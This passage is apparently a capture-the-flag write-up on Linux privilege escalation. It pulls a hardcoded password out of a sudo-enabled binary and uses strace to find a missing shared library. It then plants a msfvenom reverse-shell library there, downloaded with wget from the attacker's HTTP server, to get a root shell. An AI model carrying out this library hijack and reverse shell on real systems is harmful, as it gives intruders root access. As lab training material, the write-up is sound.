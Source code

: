 `sudo /usr/bin/stock`
Enter Password:

so we need read the code using strings command

`strings /usr/bin/stock`

![](../../../../images/2024-01-15-22-52-46.png)

Here the password `St0ckM4nager`

now try login back and success but nothing here to exploit it so we need using strace command for debugging the code 

`strace /usr/bin/stock`

after that paste the password and enter then you will see at here "No such file"

![](../../../../images/2024-01-15-22-54-02.png)

```
openat(AT_FDCWD, "/home/rektsu/.config/libcounter.so", O_RDONLY|O_CLOEXEC) = -1 ENOENT (No such file or directory)
```

the file was missed now create malicious code revshell using name libcounter.so to priv esc and get revshell . Using metasploit to create revshell

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.49 LPORT=1337 -f elf-so -o libcounter.so`

So now go this path `/home/rektsu/.config/` and upload your shell have been created by metasploit 


## Your Linux

`python3 -m http.server 80`

## SSH / Revhsell
`wget http://10.10.14.49/libcounter.so`

now run your netcat on your linux terminal and run `sudo /usr/bin/stock`

And will get access root from the system because you added malicious file in libcounter.so file at .config because the binary `/usr/bin/stock` compile with this file libcounter.so and that's why this happened 

![](../../../../images/2024-01-15-22-54-59.png)
